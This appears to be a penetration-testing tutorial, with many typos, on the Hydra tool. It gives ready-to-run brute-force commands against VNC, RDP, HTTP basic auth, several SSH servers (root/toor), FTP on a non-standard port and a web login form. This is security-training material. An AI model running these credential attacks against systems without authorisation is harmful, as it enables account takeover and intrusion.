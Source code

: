 | vnc| Virtial network Computing VNC | brute-force VNC services, used for remote desktop access | hydra -P /passwd_list.txt vnc://ip |
| rdp |Remote desktop Protocol RDP |Targets Micrsoft RDP services for remote login brute-forcing | hydra -l admin -P /passwd_list.txt rdp://ip |


- Brute-Forcing HTTP Authentication:
Imagine u're tasked with testing the security of a website using basic HTTP auth at www.example.com. U have a list of potential usernames stored in [username.txt] and corresponding pass in pass.txt.
`hydra -L username.txt -P password.txt www.example.com http-get`
This command instructs hydra to:
- Use the list of usernames form the usernames.txt file.
- Use the list of password form the password.txt file.
- Target the web example.com
- Employ the http-get module to test the http auth.

## Targeting multiple SSH servers:
Consider a situation where u have identified several servers that may be vulnerable to SSH brute-force attacks, compile their IP addr into a file named targets.txt and know thaht these
sercers might use the def username 'root' asn pass 'toor'. To efficiency test all these servers simultaneously:
`hydra -l root -p toor -M targets.txt ssh`

This command instructs hydra to:
- Use the username 'root'.
- Use te password 'toor'.
- Target all IP address listed in the targets.txt file.
- Employ the ssh module for the attacks.

- Testing FTP credentials on a Non-Standard Port:
#Image you need to assess the security of an FTP server hosted at [fpt.example.com] which operates on a Non-Standard port 2121, have list of potential usernames and pass
stored in userames.txt and password.txt, respectively. To test these creadentials against the FTP services:
`hydra -L username.txt -P password.txt -s 2121 -V ftp.example.com ftp`
This coomadn isntructs hydra to:
- Use th list of username from the [username.txt] file.
- Use the list of password form the [password.txt] file.
- Target the FTP service on ftp.exmaple.com via port 2121.
- Use the ftp module and procvide verbose output -V for detailed for detailed monitoring.


## Brute-Forcing a web login form:
Suppose u're tasked with brute-forcing a login form on a web app at www.example.com. Ypu know the username is 'admin' and the form parameters for the login are
[user=^USER^&pass=^PASS^] command:
`hydra -l admin -P password.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`

This command instruct hydra to:
- Username 'admin'.
- Use th list of pass form the password.txt file.
- Target the login form at /login on www.example.com.
- Employ the http-post-form module with the specified form parameters.
- Look for a successful login indicated by th http status code 302.
